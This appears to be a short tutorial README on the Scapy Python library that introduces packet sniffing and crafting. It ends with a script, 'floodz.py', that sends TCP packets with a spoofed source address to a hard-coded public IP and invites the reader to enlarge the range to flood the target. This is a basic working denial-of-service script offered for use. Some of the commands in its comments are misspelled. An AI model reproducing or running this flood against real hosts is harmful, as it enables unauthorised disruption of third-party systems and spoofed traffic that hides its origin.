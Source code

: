 # Scapy Module for Network Traffic Sniffing and Manipulation

In this, we're going to learn how to work with scapy which is a highly versatile python module for network traffic analysis, sniffing and packet manipulation and much more.
So to kick things off, if you don't have it installed, open up a command prompt if you're in Windows or terminal if you're in Linux and type pip or pip3 install scapy and that's it.

It lets you craft manipulate and forge your network packets. Not only that but it also allows us to sniff and dissect packets from all over the network across multiple layers of the OSI model.

You can also download scapy.exe and run it on terminal by typing scapy. U can type "ls()" in that and get list of commands.

#### floodz.py
---------------------------------------------------------------------
```python
# import scapy
# pip install scapy
# in terminal, type "scapy" and when it opens the ide, type "ls()" to get list of functions...
# lsc() is the list of commands which we can run interactively in shell
# to get help on something for ex rdpcap we type help(rdpcap)
# to craft a simple packet, type pack = IP(dest="google.com",ttl=10)
# and also pack.show() to see all the options.
# type IFACES command for wifi interfaces list
# type snf = snif(iface="wifi name",count=15) and this will collect 15 packets
# and to display them, type snf.show()

from scapy.all import *

def floodz(source,target):
    for source_p in range(100,150):                         # sending only 50 packets, increase range for more packets to flood the target.
        IPlayer = IP(src=source,dst=target)
        TCPlayer = TCP(sport=source_p,dport=600)
        pkt = IPlayer/TCPlayer
        send(pkt)

source = "127.0.0.1"
target = "162.241.24.197"
floodz(source,target)
```